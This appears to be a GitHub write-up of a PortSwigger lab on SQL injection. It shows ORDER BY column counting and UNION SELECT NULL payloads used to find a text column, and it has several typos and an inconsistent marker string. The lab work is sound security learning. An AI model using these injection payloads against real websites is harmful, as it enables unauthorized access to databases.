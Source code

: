 ## Lab Description
![image](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/c1dd1a38-91c6-40bd-94a1-95741b739996)

### Solution

Query made:

`SELECT * FROM someTable WHERE category = '<CATEGORY>'`

  - ORDER BY 4 return an error, means there are 3 columns being queried and retreived by the web application.

`SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 4 --`

![image](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/59f9c763-ef1d-443c-bbc0-12cd108ad608)

**Determine the column containng text data -**
  
  - We need to use the UNION SELECT payload using 3 NULL values. Try thetring value *SYzz32* in one NULL value to see if it returns that string. If it does , then it means the column contains string data else it is not sting data.

`SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'33eWHU',NULL`

![1](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/daf680f5-6472-4885-ba7a-31613f1df330)

![2](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/10151850-33bf-49fa-9cd5-5ed85134a8ba)
